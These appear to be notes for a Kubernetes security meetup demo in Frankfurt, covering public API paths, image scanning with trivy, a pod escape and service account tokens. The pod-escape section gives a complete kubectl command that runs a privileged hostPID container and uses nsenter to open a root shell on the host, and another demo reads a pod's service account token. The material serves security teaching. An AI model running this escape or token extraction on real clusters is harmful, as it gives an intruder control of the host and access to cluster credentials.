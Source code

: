 # Kubernetes Meetup Frankfurt

## Public Paths - Demo1

curl https://127.0.0.1:38515/version -k

trivy image node:bullseye
trivy image node:bullseye-slim

## Pod Escape - Demo2

```
kubectl run breakout -ti \
--image=alpine \
--rm \
--overrides '{"spec":{"hostPID":true,
"containers":[{"name":"dontlookatme","image":"alpine","stdin":true,"tty":true,
"securityContext":{"privileged":true},
"command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"]}]}}'
```

## Service Account token - Demo3

Exec into any Pod -> show token
